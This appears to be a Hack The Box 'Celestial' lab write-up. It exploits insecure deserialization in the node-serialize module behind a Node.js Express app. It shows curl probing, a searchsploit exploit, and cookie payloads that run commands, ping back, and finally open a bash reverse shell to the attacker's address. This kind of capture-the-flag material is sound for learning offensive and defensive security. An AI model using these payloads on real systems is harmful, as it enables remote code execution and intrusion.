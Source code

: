 # 10 - Node JS


# Cookie
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial]
└──╼ $ curl 10.10.10.85:3000 -v
*   Trying 10.10.10.85:3000...
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Thu, 22 Jul 2021 08:56:33 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Thu, 22 Jul 2021 08:41:33 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>
```


# Decoded cookie

![](vx_images/2688435158993.png)


# Request with cookies
![](vx_images/1191520716516.png)

# node-serialize module
![](vx_images/3782893535608.png)

# Deserialization vulnerability in node-serialize module
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ searchsploit node-serialize
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Node.JS - 'node-serialize' Remote Code Execution                                                                                                            | linux/remote/45265.js
Node.JS - 'node-serialize' Remote Code Execution (2)                                                                                                        | nodejs/webapps/49552.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ searchsploit -m linux/remote/45265.js
```

# Payload
```js
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ cat 45265.js 
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
console.log(payload); //don't forget to change this line 
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ node 45265.js 
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

I changed the last line from `unserialize` to `console.log(payload)` because I just want the payload.

```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

username is a parameter that gets printed to the script, after execution we also want the output.


# Error 
![](vx_images/3982525861359.png)

After sending the base64 encoded the json payload we got `An error  occured...invalid username type`. This error doesn't look like a library error but some logic error. The server can't display the output. Let's try to ping ourselves to see if the code gets executed but cannot be displayed.


```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.18', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```


# Ping request from the server

![](vx_images/2576496809763.png)

Our assumption turns out to be correct, our malicious code is executed but the output cannot be displayed because the server simply doesn't  like the username.

# Reverse shell payload

```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.10.14.18/4444 0>&1\"', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```


![](vx_images/4920929496405.png)